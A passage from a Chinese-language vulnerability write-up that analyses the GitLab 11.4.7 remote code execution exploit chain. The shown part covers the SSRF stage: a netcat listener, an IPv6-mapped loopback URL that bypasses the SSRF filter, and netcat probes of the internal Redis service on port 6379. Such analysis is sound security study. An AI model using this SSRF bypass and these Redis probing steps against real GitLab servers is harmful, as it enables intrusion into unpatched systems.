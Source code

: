 ```shell
root@gitlab:~ apt update && apt install -y netcat
```

设置原始`TCP`服务器非常简单，如下命令所示。

```shell
root@gitlab:~ nc -lvp 1234
```

这里

* `-l` 是要告诉`netcat`必须“听”
* `-v` 是详细输出
* `-p` 指定服务器必须绑定的端口号

现在已经完成了`SSRF`测试设置，然后发出相同的导入请求，看看是否可以触发`SSRF`。此外，与在浏览器中指定`web`应用程序的`URL`不同，可以使用`Burp`套件的中继器根据需要快速修改`HTTP`请求并将其发送出去。要做到这一点，可以修改旧的“通过`URL repo`”请求。可以将`URL`更新为：

	http://[0:0:0:0:ffff:127.0.0.1]:1234/test/ssrf

`git`和项目的名称转换到还不存在的地方，然后发送请求。

![gitlab-rce-3](./resource/gitlab-11.4.7远程代码执行漏洞及exp史诗级详细剖析/media/gitlab-rce-3.gif)

可以看到上面的图片,请求被困在`netcat listener`,这证实有`SSRF`可以跟内部服务,在的案例中是当地`netcat`服务器在端口1234上,这意味着可以谈谈内部复述,服务器在端口6379上运行(`docker-compose.yml`中指定)。

但是什么是[Redis](https://redis.io/)以及GitLab如何使用它?

`Redis`是一个内存数据结构存储，用作数据库，缓存和消息代理。`GitLab`以不同的方式使用它，比如存储会话数据、缓存甚至后台作业队列。`Redis`使用了一种简单明了的纯文本协议，这意味着可以直接使用`netcat`连接到`Redis`并开始使用它。

```shell
# quick test with redis
root@gitlab:~ nc 127.0.0.1 6379

blah
- ERR unknown command 'blah'
set liveoverflow test
+OK
asd
- ERR unknown command 'asd'
get liveoverflow
$4
test
```

`Redis`是一个简单的基于`ASCII`文本的协议，但`HTTP`也是一个简单的基于`ASCII`文本的协议。现在，如果尝试向`Redis`发送`HTTP`请求会发生什么?`Redis`会执行命令吗?现在试一试。

```shell
# http request test with redis
root@gitlab:~ nc 127.0.0.1 6379

GET /test/ssrf.git/info/refs?service=git-upload-pack HTTP/1.1
Host: [0:0:0:0:0:ffff:127.0.0.1]:1234
User-Agent: git/2.18.1
Accept: */*
Accept-Encoding: deflate, gzip
Pragma: no-cache
- Err wrong number of arguments for 'get' command

root@gitlab:~
```
